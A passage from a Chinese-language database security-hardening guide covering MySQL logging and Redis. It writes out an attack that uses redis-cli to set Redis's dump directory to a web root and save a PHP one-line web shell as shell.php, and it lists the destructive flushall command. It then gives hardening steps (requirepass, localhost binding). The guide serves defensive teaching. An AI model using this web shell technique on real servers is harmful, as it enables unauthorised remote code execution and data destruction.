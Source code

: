 开启并查看日志路径：

```sql
set global general_log=on;
show variables like '%general%';
```

## Redis数据库安全加固

常用攻击手段：在Kali中，使用以下命令连接：

```bash
redis-cli -h IP地址
```

常用Redis指令：

| 指令         | 说明                             |
| ------------ | -------------------------------- |
| info         | 查看版本号、配置文件目录、进程ID |
| keys *       | 查看key及其对应值                |
| get user     | 获取用户名                       |
| get password | 获取登陆指令                     |
| flushall     | 删除所有数据                     |
| dir          | 生成rdb的文件路径                |
| save         | 保存配置                         |

写入一句话木马

```
config set dir /var/www/html/
config set dbfilename shell.php
set WebShell "<?php @eval($_POST[passwd]);?>"
save
```

修改`/etc/redis/redis.conf`，设置`requirepass`值，利用redis-cli攻击时，需要命令“auth 密码”。设置`bind`为“127.0.0.1::1”，则不能远程连接。
